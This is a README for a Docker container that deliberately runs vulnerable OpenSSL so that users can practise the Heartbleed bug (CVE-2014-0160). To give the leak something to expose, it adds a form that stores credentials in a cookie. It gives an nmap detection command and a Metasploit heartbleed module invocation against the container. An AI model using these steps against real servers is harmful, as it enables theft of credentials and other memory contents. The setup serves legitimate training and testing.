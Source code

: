 # Heartbleed Vulnerable Server
A Debian (Wheezy) Linux system with a vulnerable version of libssl and openssl and a web server to showcase CVS-2014-0160, a.k.a. Heartbleed.

# Overview
This docker container is based on Debian Jessie and has been modified to use a vulernable version of libssl and openssl.

![Vulnerable Web Page](./docs/vulnerable-web-server.jpg)

A simple static web page is served via Apache 2. In order to provide some **juicy** data when exploiting the vulnerability we added a simple form that creates a **cookie** where are stored user credentials.
(We know that this is not a real case scenario but it is useful tu understand how informations are stored in the webserver)

# Usage
Install the container with `docker pull effesociety/heartbleed-vulnerable-server`

Run the container with a port mapping `docker run -d -p 8443:443 effesociety/heartbleed-vulnerable-server`

You should be able to access the web application at http://your-ip:8443/.

# Checking
The web server/vulnerable openssl/libssl version can be verified and exploited as shown below (using a Kali machine is recommended):</br>

``` sh
root@kali:~/heartbleed-vulnerable-server# nmap -sV -p 8443 --script=ssl-heartbleed your-ip
```

# Exploitation
``` sh
msfconsole
root@kali:/tmp# msfcli auxiliary/scanner/ssl/openssl_heartbleed RHOSTS=your-ip RPORT=8443 VERBOSE=true E
```
Here is an example of leaked info:
![Heartbleed Leaked Info](./docs/heartbleed-info-leaked.jpg)